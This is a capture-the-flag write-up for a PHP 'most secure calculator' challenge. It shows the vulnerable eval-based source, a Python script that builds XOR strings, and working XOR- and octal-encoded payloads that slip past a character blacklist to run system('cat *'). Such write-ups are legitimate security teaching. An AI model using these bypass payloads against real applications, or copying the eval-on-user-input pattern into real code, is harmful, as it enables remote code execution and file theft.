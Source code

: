 # Most Secure Calculation 2

*The version 2 calculator web app*

## Step 1, enumeration:
Viewing the source-code, we found a comment:
```html
Hi Selina, 
I learned about regex today. I have upgraded the previous calculator. Now its the most secure calculator ever.
The calculator accepts only numbers and symbols. 
I have hidden some interesting things in flag.txt and I know you can create an interesting equation to read that file.
```
Do enumeration again equation parameter, we know that this challenge:
**Blacklist characters**: all characters, $, <, >, =

## Step 2, exploit:
Ok, try to inject some special characters we get some error and know `eval()` function is using: 
```html
Result : Parse error: syntax error, unexpected ';' in /var/www/html/index.php(12) : eval()'d code on line 1
```

With blacklist characters this sound just like XOR string to bypass. Ok, i don't finished this challenge, i stick with XOR but it doesn't work and then i realize we can XOR: string ^ string = string, and not just 2 single character together. Ok, ye, ye leave me alone!!

**XOR string**:
**About XOR algorithm**: XOR is OR operation, (1 ^ 1 = 0 ; 0 ^ 0 = 0), (1 ^ 0 = 1), example:
```
a: 01100001
   ^(XOR)
b: 01100010
   -------
3: 00000011
```
When we XOR two string, characters will sequence XOR each other(abcd^abcd), but when one longer than the other, this will be: ab ^ abababa

**tool**: using `generate_xor.py` to convert characters to symbols.
```python
# bad_girls = $, any characters(\n), <, >, =
valid = r"0123456789!\"#%&'()*+,-./:;?@[]^_{}~`\\|"

def xor(a, b):
	return chr(ord(a) ^ ord(b))

payload = "system" # cat

flag = 0
one = ''
two = ''
for p in payload:
	for a in valid:
		for b in valid:
			if xor(a, b) == p:
				one += a; two += b
				flag = 1
				break
		if flag:
			flag = 0
			break

print(f"('{one}'^'{two}')")
```

**final payload**: after craft
```php
system(cat *) : ('393480'^'@@@@]]')(('8!4'^'[@@').' *')
```

**Octal encoding**:
More easy way, with *double quote*, we can using hex, octal encoding to bypass the filter, but hexdedimal prefix(ex: \x08), 'x' character is blocked so we can't used this.

Ok, let's use octal(number from 0 to 7, which is allowed) encoding.

**Reference**:
String literal in python: `https://stackoverflow.com/questions/50580002/what-does-a-backslash-mean-in-a-string-literal`: Using back slash to specify denote special type of string literals.

About `hexdecimal`, notice *hex identifier*: `https://learn.sparkfun.com/tutorials/hexadecimal/`
**Identifier**: 0x47DE, #FF7734, %20,\x0A, &#x	
	
**About octal prefix**: `077, 0o77, \077`

**payload**:
```php
system('cat *') : ("\163\171\163\164\145\155")("\143\141\164 *")
`cat *` : `\143\141\164 *`
```

**source-code**: `index.php`
```php
<?php
if (isset($_POST["equation"]) && !is_array($_POST["equation"])) {
    if (empty($_POST["equation"])) {
        echo "Please enter some eqation.";
    } else {
        if (preg_match_all("^[a-zA-Z\$\>\<\=]^", $_POST["equation"])) {
            echo "Oow ! Bad equation.";
        } else if (strlen($_POST["equation"]) >= 80) {
            echo "Oow ! You have entered an equation that is too big for me.";
        } else {
            echo "<h1> Result : <br>";
            eval("echo " . $_POST["equation"] . ";");
            echo "</h1>";
        }
    }
}

```
**flag**: `KCTF{sHoUlD_I_uSe_eVaL_lIkE_tHaT}`
